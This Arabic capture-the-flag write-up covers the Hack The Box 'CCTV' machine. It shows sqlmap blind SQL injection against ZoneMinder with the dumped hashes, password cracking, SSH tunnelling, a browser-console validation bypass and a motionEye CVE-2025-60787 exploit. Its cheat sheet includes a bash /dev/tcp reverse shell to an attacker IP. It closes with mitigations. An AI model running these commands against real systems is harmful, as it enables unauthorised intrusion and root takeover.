










Write-up CCTV HTB
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTFتقرير اختبار الاختراق: جهاز CCTV (Hack The Box) {color="green"}

تاريخ التقرير: مايو 2026
المعد: خبير الأمن السيبراني (مساعد AI) بالتعاون والتدقيق الكامل من مختبر الاختراق {color="blue"}
1. الملخص التنفيذي (Executive Summary)
> *يوثق هذا التقرير مسار اختراق جهاز "CCTV" ضمن بيئة تعليمية (CTF). بدأ الهجوم بفحص الشبكة واكتشاف تطبيق ZoneMinder لإدارة الكاميرات. من خلال استخدام بيانات دخول افتراضية، تم الوصول للوحة التحكم واستغلال ثغرة SQL Injection لاستخراج تجزئة (Hash) كلمة مرور المستخدم mark. بعد كسر التشفير، تم الوصول للنظام عبر SSH.*
> خلال الاستطلاع الداخلي (Post-Exploitation)، تم اكتشاف خدمة motionEye تعمل داخلياً. باستخدام تقنية توجيه المنافذ (Port Forwarding)، تم الوصول لواجهة الويب الخاصة بالخدمة، واستغلال ثغرة تنفيذ أوامر (RCE / Command Injection) للحصول على جلسة بصلاحيات Root والسيطرة الكاملة على النظام.
---
2. تفاصيل سير العمل (Detailed Walkthrough)
المرحلة الأولى: الاستطلاع وجمع المعلومات (Reconnaissance)
> بدأت العملية بفحص المنافذ المفتوحة باستخدام أداة nmap.
- النتائج: تم اكتشاف المنفذ
22(SSH) والمنفذ80(HTTP) يعمل عليه خادم Apache (إصدار 2.4.58) ونظام التشغيل Ubuntu.
- إعداد البيئة: تم إضافة النطاق
cctv.htbإلى ملف/etc/hostsلضمان التوجيه الصحيح.
-

المرحلة الثانية: الوصول الأولي (Initial Access) عبر ZoneMinder
عند تصفح الموقع، تم اكتشاف نظام ZoneMinder (الإصدار 1.37.63).

*الثغرة المنطقية: تم تسجيل الدخول بنجاح باستخدام البيانات الافتراضية admin:admin.*
-

> محاولة RCE: جرت محاولة مبدئية لاستغلال ثغرة (CVE-2023-26035) لإنشاء Reverse Shell عبر مسار /zm/index.php، إلا أن جدار الحماية أو إعدادات النظام منعت الاتصال العكسي المباشر.
-

المرحلة الثالثة: استغلال قاعدة البيانات (SQL Injection)
للتغلب على العائق السابق، تم تحويل مسار الهجوم للبحث عن ثغرات في قاعدة البيانات.
- تم تحديد المعامل
tidفي الرابط كـ مُدخل قابل للحقن. - باستخدام أداة
sqlmapومع إرفاق ملف تعريف الارتباط (Cookie) لجلسة الأدمن، تم تأكيد وجود ثغرة Time-Based Blind SQLi. - استخراج البيانات: تم استخراج جدول المستخدمين، والحصول على تجزئة (Hash) من نوع
Bcryptللمستخدمmark.
┌──(kali㉿kali)-[~/Downloads]
└─$ sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" \
-D zm -T Users -C Username,Password --dump --batch \
--dbms=MySQL --technique=T \
--cookie="ZMSESSID=iapklkkpdtihs4usubfk0ameo9" \
--time-sec=2
___
__H__
___ ___[)]_____ ___ ___ {1.9.5#stable}
|_ -| . [.] | .'| . |
|___|_ [']_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 17:33:34 /2026-05-09/
[17:33:34] [INFO] testing connection to the target URL
[17:33:35] [WARNING] heuristic (basic) test shows that GET parameter 'view' might not be injectable
[17:33:35] [INFO] testing for SQL injection on GET parameter 'view'
[17:33:35] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:35] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[17:33:44] [WARNING] GET parameter 'view' does not seem to be injectable
[17:33:44] [WARNING] heuristic (basic) test shows that GET parameter 'request' might not be injectable
[17:33:44] [INFO] testing for SQL injection on GET parameter 'request'
[17:33:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:45] [WARNING] GET parameter 'request' does not seem to be injectable
[17:33:46] [WARNING] heuristic (basic) test shows that GET parameter 'action' might not be injectable
[17:33:46] [INFO] testing for SQL injection on GET parameter 'action'
[17:33:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:47] [WARNING] GET parameter 'action' does not seem to be injectable
[17:33:47] [WARNING] heuristic (basic) test shows that GET parameter 'tid' might not be injectable
[17:33:48] [INFO] testing for SQL injection on GET parameter 'tid'
[17:33:48] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:53] [INFO] GET parameter 'tid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[17:33:53] [INFO] checking if the injection point on GET parameter 'tid' is a false positive
GET parameter 'tid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 61 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 4841 FROM (SELECT(SLEEP(2)))tkZz)
---
[17:34:02] [INFO] the back-end DBMS is MySQL
[17:34:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[17:34:03] [INFO] fetching entries of column(s) 'Password,Username' for table 'Users' in database 'zm'
[17:34:03] [INFO] fetching number of column(s) 'Password,Username' entries for table 'Users' in database 'zm'
[17:34:03] [INFO] retrieved: 3
[17:34:11] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
$2y$10$cmy
[17:35:50] [ERROR] invalid character detected. retrying..
tVWFRn
[17:36:54] [ERROR] invalid character detected. retrying..
t1XfqsItsJR^X@sgVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm
[17:43:16] [INFO] retrieved: superadmin
[17:44:32] [INFO] retrieved: $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
[17:53:51] [INFO] retrieved: mark
[17:54:20] [INFO] retrieved: $2y$10$t
[17:55:40] [ERROR] invalid character detected. retrying..
5z8uIT.n9uCdHCNidcLf.39T
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
1y
Ui9nrlCkdXrzJMnJgkT
[18:02:46] [ERROR] invalid character detected. retrying..
iAvRUM6m
[18:04:00] [INFO] retrieved: admin
Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username | Password |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
[18:04:37] [INFO] table 'zm.Users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cctv.htb/dump/zm/Users.csv'
[18:04:37] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1690 times
[18:04:37] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'
[18:04:37] [WARNING] your sqlmap version is outdated
[*] ending @ 18:04:37 /2026-05-09/
┌──(kali㉿kali)-[~/Downloads]
المرحلة الرابعة: كسر التشفير والوصول للنظام
- تم حفظ التجزئة المستخرجة (
$2y$10$...) في ملف نصي. - باستخدام أداة
John the Ripperوقائمة كلماتrockyou.txt، تم كسر التشفير بنجاح، وكلمة المرور المستخرجة هي:opensesame.
-

- تم تسجيل الدخول بنجاح عبر بروتوكول SSH بصلاحيات المستخدم
mark. (تم الحصول على وصول للمستوى الأول).
المرحلة الخامسة: الاستطلاع الداخلي وتوجيه المنافذ (Lateral Movement)
أثناء فحص ملفات النظام كمستخدم mark، تم الآتي:
- ملاحظة وجود مستخدم آخر يسمى
sa_markومجلدات لا يمكن الوصول إليها. - اكتشاف إعدادات لخدمة motionEye في المسار
/etc/motioneye/motioneye.conf. - 8765

- لان لوحة تحكم ال WEB الخاصة ب motioneye تعمل داخليا فقط على الشبكة المحلية 127.0.0.1 على منفذ 8765<br>قمنا بالتوجيه (Tunneling): تم إنشاء نفق SSH لربط المنفذ المحلي
8765بالمنفذ8765على جهازناص المهاجم للتمكن من تصفح واجهة motionEye.
mark@cctv:~$ ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
mark@cctv.htb's password:opensesameالمرحلة السادسة: تصعيد الصلاحيات إلى Root (Privilege Escalation)
- تم الدخول لواجهة motionEye عبر المتصفح باستخدام المستخدم الافتراضي
adminوكلمة مرور التي وجدناها اثناء قرائتنا للملفات
mark@cctv:/usr$ cat /etc/motioneye/motion.conf
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password
setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2
camera camera-1.conf

- تجاوز الحماية (Bypass): منعت الواجهة الرسومية إدخال أوامر معقدة، فتم استخدام وحدة تحكم المتصفح (Console) لحقن كود JavaScript ;
configUIValid = function() { return true; }<br>) لتخطي التحقق.

-
- تنفيذ الأوامر (RCE): في إعدادات الكاميرا (قسم Motion Notifications / Still Images)، تم تفعيل خيار تنفيذ أمر (Run A Command) وحقن Payload من نوع Reverse Bash Shell.
- عن طريق استخدام استغلال جاهز يمكنك تنزيله من هنا :
──(kali㉿kali)-[~/Downloads]
└─$ git clone https://github.com/gunzf0x/CVE-2025-60787.git
Cloning into 'CVE-2025-60787'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 1), reused 7 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (7/7), 5.54 KiB | 1.11 MiB/s, done.
Resolving deltas: 100% (1/1), done.
┌──(kali㉿kali)-[~/Downloads]
└─$ cd CVE-2025-60787
┌──(kali㉿kali)-[~/Downloads/CVE-2025-60787]
└─$ ls
CVE-2025-60787.py README.md
┌──(kali㉿kali)-[~/Downloads/CVE-2025-60787]
└─$ cat README.md
# CVE-2025-60787 - Authenticated RCE in motionEye
PoC for [CVE-2025-60787](https://nvd.nist.gov/vuln/detail/CVE-2025-60787) that is an Authenticated RCE vulnerability for [motionEye](https://github.com/motioneye-project/motioneye) with all afected versions up to 0.43.1b4 (included).
This is an automated PoC for the vulnerability described in [this repository](https://github.com/prabhatverma47/CVE-2025-60787). Credits to [prabhatverma47](https://github.com/prabhatverma47/).
## Usage
The script has 2 commands that abuse the vulnerability. One that directly sends a reverse shell called `revshell` and another command called `command` to directly execute commands abusing this CVE.
❯ python3 CVE-2025-60787.py -h
usage: CVE-2025-60787.py [-h] {revshell,command} ...
PoC for CVE-2025-60787 -- Authenticated RCE in motionEye by gunzf0x
positional arguments:
{revshell,command} Choose between send a reverse shell or (attempting to) run commands
revshell Attempt to send a reverse shell using CVE-2025-60787 vuln
command Execute a command remotely using CVE-2025-60787 vuln
options:
-h, --help show this help message and exit
Reverse Shell
Use revshell command to obtain a shell. For example:
python3 CVE-2025-60787.py revshell --url 'http://10.10.10.10:8765' --user 'admin' --password 'StrongPassw0rd123!' -i 10.10.10.15 --port 9001Where 10.10.10.10 is the target machine (machine running motionEye), 10.10.10.15 is our attacker machine and 9001 is the prot we are listening to catch a reverse shell.
Command Execution
If instead of a reverse shell we want to execute other commands remotely, we can use command option. For example, execute the command ping -c1 10.10.10.15 in the victim machine:
python3 CVE-2025-60787.py command --url 'http://10.10.10.10:8765' --user 'admin' --password 'StrongPassw0rd123!' -e 'ping -c1 10.10.10.15'Where 10.10.10.10 is the machine running motionEye.
Disclaimer
Use this script always under your own responsability.
Be ethical (:

- قم بتشعيل الاستغلال باستخدام الامر التالي :
- اولا قم بتشغيل جلسة استماع باستخدام nc ثم شعل الاستغلال وستستلم shell as Root
python3 CVE-2025-60787.py revshell \
--url 'http://127.0.0.1:8765' \
--user 'admin' \
--password '989c5a8ee87a0e9521ec81a79187d162109282f0' \
-i <your-IP> \
--port 4444- النتيجة النهائية: نظراً لأن خدمة motionEye كانت تعمل بصلاحيات عالية، تم استلام الجلسة (Shell) بصلاحيات Root مباشرة، وتم قراءة الـ
user.txtوالـroot.txt.
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.38] from (UNKNOWN) [10.129.53.67] 34172
bash: cannot set terminal process group (11461): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# ls
-
3. قائمة الأوامر المستغلة (Command Cheat Sheet)
الاستطلاع (Recon)
sudo nmap -sV -sC -Pn 10.129.50.173
echo '10.129.50.173 cctv.htb' | sudo tee -a /etc/hosts
gobuster dir -u [http://cctv.htb/](http://cctv.htb/) -w /usr/share/wordlists/dirb/common.txtاستغلال SQL Injection
sqlmap -u "[http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1](http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1)" \
-D zm -T Users -C Username,Password --dump --batch \
--dbms=MySQL --technique=T \
--cookie="ZMSESSID=[Your_Cookie_Here]"كسر التشفير (Password Cracking)
echo '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.' > markhash.txt
john --format=bcrypt markhash.txt --wordlist=/usr/share/wordlists/rockyou.txtالاتصال والاستطلاع الداخلي
ssh mark@cctv.htb
# البحث عن ملفات SUID
find / -perm -u=s -type f 2>/dev/null
# البحث عن إعدادات motionEye
find / -type f -name motioneye.conf 2>/dev/null
cat /etc/motioneye/motioneye.confتوجيه المنافذ (SSH Tunneling)
# ربط منفذ 8765 الداخلي ليكون متاحاً على جهاز المهاجم
ssh -L 8765:127.0.0.1:8765 mark@cctv.htbتجاوز قيود واجهة الويب (Browser Console Bypass)
// كود يكتب في وحدة تحكم المتصفح (F12) لتخطي فحص المدخلات
configUIValid = function() { return true; };كود الاتصال العكسي (Reverse Shell Payload)
# تم حقنه داخل واجهة motionEye
bash -c 'bash -i >& /dev/tcp/10.10.16.38/4444 0>&1'تثبيت الجلسة (Shell Stabilization)
python3 -c 'import pty; pty.spawn("/bin/bash")'4. ملخص الثغرات والتوصيات (Vulnerabilities & Mitigation)
- استخدام بيانات دخول افتراضية (Default Credentials): \ المشكلة:* وجود
admin:adminفي ZoneMinder وكلمة مرور فارغة في motionEye.
- الحل: فرض تغيير كلمات المرور الافتراضية عند التثبيت الأول وتطبيق سياسة كلمات مرور معقدة.
- ثغرة حقن قواعد البيانات (Blind SQL Injection):
- المشكلة: عدم فلترة المعامل
tidقبل إرساله لقاعدة البيانات. - الحل: استخدام الاستعلامات المجهزة (Parameterized Queries / Prepared Statements) في كود الـ PHP.
- ضعف في التشفير / إعادة استخدام كلمة المرور:
- المشكلة: كلمة مرور حساب
markكانت ضعيفة (opensesame) وموجودة في قواميس الاختراق المعروفة. - الحل: توعية المستخدمين وتطبيق آليات حماية حسابات النظام (PAM).
- تنفيذ أوامر عن بعد (Command Injection / RCE):
- المشكلة: واجهة motionEye تسمح بتمرير أوامر نظام التشغيل مباشرة دون تعقيم (Sanitization) حقيقي في الواجهة الخلفية.
- الحل: تحديث motionEye إلى إصدار مرقع (Patched)، وتقييد الصلاحيات التي تعمل بها خدمة الويب لتكون أقل الصلاحيات الممكنة (Least Privilege) وعدم تشغيلها كـ Root.